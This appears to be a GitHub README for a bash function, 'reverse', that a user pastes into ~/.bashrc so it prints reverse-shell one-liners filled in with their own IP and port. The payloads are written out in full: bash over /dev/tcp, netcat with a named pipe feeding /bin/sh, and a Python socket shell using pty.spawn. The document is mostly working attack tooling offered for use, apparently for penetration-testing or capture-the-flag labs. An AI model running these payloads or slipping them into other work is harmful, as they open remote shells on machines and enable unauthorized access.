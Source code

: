 # Set a Bash Alias for Common Reverse Shell's
```bash
function reverse { local port=443;adaptors=$(ip a | egrep ^[0-9]+ | cut -d" " -f 2 | sed 's/://g');OPTIND=1;usage()( echo "reverse [-i <interface>] [-l <language>] [-p <port>]";printf "Language Options:\n  bash\n  nc\n  python\n\n" );while getopts ":i:l:p:h" options; do case "${options}" in i)local interface=${OPTARG};if ! echo $interface |  egrep -qo "public"; then if ! echo $adaptors | grep -qo "$interface"; then echo "Interface "${OPTARG}" does not exist";usage;return;fi;fi;;l)local language=${OPTARG};;     p)local port=${OPTARG};;h)usage;return;;:)echo "Error: -${OPTARG} requires an argument";usage;return;;*)echo "Unknown Switch: -${OPTARG}";usage;return;;esac;done;if [ -z $interface ]; then if ip a | egrep -qo "tun0"; then local interface="tun0";elif echo $interface | egrep -qo "public" ; then local interface="public";elif ip a | egrep -qo "eth0"; then local interface="eth0";elif ip a | egrep -qo "ens33"; then local interface="ens33";else local interface="lo";fi;fi;if echo $interface | egrep -qo "public"; then local ip=$(wget -qO - ipv4.icanhazip.com);else local ip=$(ip a show $interface | egrep -o "([0-9]{1,3}\.){3}[0-9]{1,3}" | head -1);fi;local randName=$(head -4 /dev/urandom | sha256sum | base64 | head -c 5);declare -A shells=( ["bash"]="bash -i >& /dev/tcp/$ip/$port 0>&1" ["nc"]="mkfifo /tmp/$randName; nc $ip $port 0</tmp/$randName | /bin/sh >/tmp/$randName 2>&1; rm /tmp/$randName" ["python"]="python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"$ip\",$port));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn(\"/bin/bash\")'" );if [ -z $language ]; then printf "\n";for i in "${shells[@]}";do printf "$i\n\n";done;return;fi;printf "\n${shells[$language]}\n\n"; }

```
# Instructions
<br>
• 1. vim ~/.bashrc
<br>
• 2. copy and paste the above text (see screenshot)
<br>
• 3. save, then open a new terminal and type "<b>reverse -h</b>"
<br>
• 4. the function will default to your tun0 IP 

# Usage

```
reverse -h

reverse -i tun0 -p 9001

reverse -i public -p 9001
```

# Screenshots
<i>~/.bashrc</i>
<img src="https://i.imgur.com/9AtWWvn.png">
<br>
<i>running the alias</i>
<img src="https://i.imgur.com/muKxjaf.png">
<br>
<img src="https://i.imgur.com/xvULtzH.png">
<br>
<b>Please feel free to modify this!</b>
<br>
<center>Special thanks to https://github.com/MuirlandOracle for the quirky Bash help! </center> 
